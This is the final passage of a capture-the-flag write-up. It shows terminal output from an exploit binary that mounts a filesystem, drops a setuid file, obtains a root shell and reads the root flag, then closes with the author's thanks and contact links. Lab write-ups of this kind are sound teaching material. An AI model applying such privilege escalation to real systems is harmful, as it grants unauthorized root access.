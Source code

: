 ```
$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jan  5 07:20 .
drwxr-xr-x 6 root   root     4096 Jan  5 07:20 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
# cat /root/root.txt
f47df46ad586c28aa025a48f2e961c83
```

And there's our root flag! <mark>f47df46ad586c28aa025a48f2e961c83</mark>


![Success](submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).

You can also find my other contacts on the [whoami](../about) page.